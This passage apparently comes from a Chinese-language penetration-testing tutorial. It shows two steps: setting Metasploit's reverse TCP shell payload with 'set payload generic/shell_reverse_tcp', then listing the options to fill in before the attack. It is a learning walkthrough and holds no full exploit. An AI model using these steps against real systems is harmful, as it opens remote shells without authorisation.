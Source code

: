 6.使用命令set payload generic/shell_reverse_tcp设置攻击有效载荷。

![设置攻击有效载荷](/img/assets/img/15.png)


7.输入命令show options显示我们需要在攻击前需要设置的数据。
